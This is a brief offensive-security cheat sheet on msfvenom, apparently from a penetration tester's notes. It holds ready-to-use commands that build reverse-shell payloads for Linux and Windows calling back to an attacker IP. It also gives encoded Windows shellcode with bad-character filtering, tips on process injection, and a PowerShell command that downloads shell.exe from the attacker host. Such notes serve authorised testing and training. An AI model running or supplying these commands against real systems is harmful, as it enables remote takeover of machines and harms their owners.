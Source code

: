 ```yaml
---
tags:
  - tool
  - exploitation
---
```

# msfvenom

Generate and encode payloads

## Capabilities

```powershell
# Binaries
msfvenom -p linux/x64/shell_reverse_tcp lhost=$OUR_IP lport=$PORT -f elf -o shell
msfvenom -p windows/shell_reverse_tcp lhost=$OUR_IP lport=$PORT -f exe -o shell.exe

# Windows C code
msfvenom -p windows/shell_reverse_tcp lhost=$OUR_IP lport=$PORT EXITFUNC=thread -f c –e x86/shikata_ga_nai -b '\x00\x0a\x0d\x25\x26\x2b\x3d'
```

Note: `EXITFUNC=thread` is useful when injecting into a process as without it, closing the shell would end the injected process

Download a file in powershell with the command

```powershell
iwr -U "http://$OUR_IP/shell.exe" -O "shell.exe"
```

If not popping a shell, try increasingly strict character blacklists

```
'\x00\x0a\x0d'
'\x00\x0a\x0d\x25\x26\x2b\x3d'
```

Note: `shell_reverse_tcp` is not staged, whereas `shell/reverse_tcp` is.

A staged payload is sent in 2 parts, where the majority of the data is sent in the 2nd part, whereas non-staged payloads are sent all at once
